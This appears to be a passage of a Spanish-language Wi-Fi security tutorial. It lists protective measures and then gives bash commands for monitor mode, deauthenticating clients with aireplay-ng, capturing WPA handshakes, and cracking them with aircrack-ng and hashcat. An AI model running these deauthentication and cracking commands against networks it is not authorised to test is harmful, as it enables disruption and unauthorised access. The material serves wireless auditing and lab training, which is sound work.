 - Forzar reconexión de clientes
- Capturar handshakes
- Herramientas: aireplay-ng

### Medidas de Protección

**1. Detección de Intrusiones**

- Monitoreo de conexiones anómalas
- Detección de ataques de fuerza bruta
- Alertas de seguridad

**2. Segmentación de Red**

- VLANs para diferentes usuarios
- Aislamiento de clientes
- Políticas de acceso

**3. Monitoreo Continuo**

- Análisis de tráfico
- Detección de dispositivos no autorizados
- Auditorías de seguridad


# Herramientas de Análisis

## Herramientas de Auditoría


```bash
# Aircrack-ng suite
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng -0 10 -a [BSSID] wlan0mon
aircrack-ng -w wordlist.txt capture.cap

# Hashcat para cracking
hashcat -m 2500 -a 0 capture.hccapx wordlist.txt

# Wireshark para análisis
wireshark -i wlan0mon
```

## Configuración de Laboratorio


```bash
# Configurar modo monitor
sudo airmon-ng start wlan0

# Capturar tráfico
sudo airodump-ng wlan0mon

# Análisis de protocolos
sudo tcpdump -i wlan0mon

# Generación de tráfico
sudo aireplay-ng --test wlan0mon
```

